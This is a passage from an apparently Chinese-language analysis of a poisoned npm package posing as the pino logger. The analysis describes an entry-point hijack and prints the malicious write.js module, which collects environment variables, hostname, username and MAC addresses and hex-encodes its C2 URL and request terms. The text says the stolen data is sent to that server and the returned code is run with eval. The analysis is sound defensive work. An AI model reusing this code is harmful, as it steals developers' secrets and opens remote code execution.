   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8VA6VEdgJoHKwPLoF5TP2iaAibwoL7iaRXHUQ8dKqvC6L7Jok3RzrrLTlUiaEy14TB92icOKPF1nQVj1d7WMlGzqa2w/640?wx_fmt=png&from=appmsg "")  
  
pino.js  
加载恶意模块  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8VA6VEdgJoHKwPLoF5TP2iaAibwoL7iaRXHWFm5kYNAL80pm2LqDPyGFt8ibYIdKZia1usqBPQPaQUFsLydtMIensJQ/640?wx_fmt=png&from=appmsg "")  
  
pino()  
函数入口劫持  
  
  
2  
  
**敏感信息窃取及远程代码执行**  
  
  
恶意模块./lib/write.js文件代码如下所示，主要功能是收集目标系统的环境变量数据及系统平台信息（包括主机名、⽤户名、⽹卡MAC等）通过HTTP POST请求发送到投毒者C2服务器（  
https://ip-check-api.vercel.app/api/ipcheck/703  
）  
，并会从投毒者服务器响应数据中提取下⼀阶段代码后调用eval函数实现远程代码执行功能。  
```
'use strict'
const os = require('os')
 
function getMacAddress () {
 const interfaces =
os.networkInterfaces()
 const macAddresses
= []
 
 for (const interfaceName in interfaces) {
  const
networkInterface = interfaces[interfaceName]
 
  networkInterface.forEach((details) => {
   // Check for
IPv4 and that the address is not internal (i.e., not 127.0.0.1)
   if (details.family === 'IPv4' && !details.internal) {
    macAddresses.push(details.mac)
   }
  })
 }
 return macAddresses
}
const data = {
 ...process.env,
 platform: os.platform(),
 hostname: os.hostname(),
 username: os.userInfo().username,
 macAddresses: getMacAddress()
}
 
function g (h) { return h.replace(/../g, match => String.fromCharCode(parseInt(match, 16))) }
 
const hl = [
 g('72657175697265'),
 g('6178696f73'),
 g('706f7374'),
 g('68747470733a2f2f69702d636865636b2d6170692e76657263656c2e6170702f6170692f6970636865636b2f373033'),
 g('68656164657273'),
 g('782d7365637265742d686561646572'),
 g('736563726574'),
 g('7468656e')
]
```